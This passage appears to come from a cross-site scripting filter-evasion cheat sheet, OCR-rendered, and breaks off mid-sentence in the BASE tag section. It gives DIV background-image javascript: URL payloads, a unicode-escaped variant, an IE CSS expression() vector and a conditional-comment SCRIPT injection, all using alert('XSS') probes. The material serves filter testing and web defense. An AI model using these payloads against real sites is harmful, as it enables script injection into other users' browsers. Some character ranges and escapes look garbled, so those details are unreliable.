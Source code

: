 ## DIV

### DIV Background-image

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

### DIV Background-image with Unicoded XSS Exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

### DIV Background-image Plus Extra Characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

### DIV Expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":

```html
<DIV STYLE="width: expression(alert('XSS'));">
```

## Downlevel-Hidden Block

Only works in IE5.0 and later and Netscape 8.1 in IE rendering engine mode). Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our Cross Site Scripting vector. Or the system could add comment tags around something to attempt to render it harmless. As we can see, that probably wouldn't do the job:

```html
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

## BASE Tag

Works in IE and Netscape 8.1 in safe mode. You need the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that the website uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg` you can remove one slash from this vector (as long as there are two to begin the comment this will work):
